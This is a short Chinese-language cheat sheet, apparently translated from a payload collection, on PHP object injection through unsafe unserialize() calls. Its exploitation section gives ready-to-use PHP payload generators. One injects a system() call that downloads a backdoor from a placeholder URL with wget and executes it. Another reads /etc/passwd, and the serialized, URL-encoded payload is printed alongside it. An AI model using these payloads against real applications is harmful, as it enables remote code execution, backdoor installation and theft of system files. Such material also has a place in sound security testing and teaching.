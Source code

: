 # PHP对象注入
PHP对象注入是一种应用程序级别的漏洞，可以让攻击者执行不同类型的恶意攻击, 例如基于背景的代码注入, SQL资料隐码攻击, 路径遍历和程序拒绝服务攻击. 用户提供的输入在传递给未序列化()PHP函数之前，没有经过适当的消毒处理，就会出现漏洞. 由于PHP允许对象序列化, 攻击者可以将特定的序列化字符串传递给脆弱的非序列化()调用, 导致将一个任意的PHP对象(s)注入到应用程序范围.	

## 开发

反向壳
```php
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}

echo urlencode(serialize(new PHPObjectInjection));
```

基础检测
```php
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('cat /etc/passwd');";
}

echo urlencode(serialize(new PHPObjectInjection));
//O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A26%3A%22system%28%27cat+%2Fetc%2Fpasswd%27%29%3B%22%3B%7D
//'O:18:"PHPObjectInjection":1:{s:6:"inject";s:26:"system(\'cat+/etc/passwd\');";}'
```

## 感谢
* https://www.owasp.org/index.php/PHP_Object_Injection
